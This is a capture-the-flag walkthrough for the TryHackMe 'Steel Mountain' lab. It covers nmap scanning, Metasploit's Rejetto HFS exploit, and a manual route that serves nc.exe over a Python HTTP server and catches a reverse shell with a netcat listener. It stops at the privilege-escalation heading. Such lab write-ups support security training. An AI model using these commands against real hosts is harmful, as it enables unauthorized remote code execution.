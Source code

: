 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -A` 10.10.248.189

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

`msfconsole`&#x20;

`use exploit/windows/http/rejetto_hfs_exec`&#x20;

`set LHOST 10.10.62.157`&#x20;

`set RHOSTS 10.10.181.159`&#x20;

`set RPORT 8080`

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

`nc -nvlp 443`

`cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .`

`python2 -m SimpleHTTPServer 81`

`python2 exploit.py 10.10.181.159 8080`

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

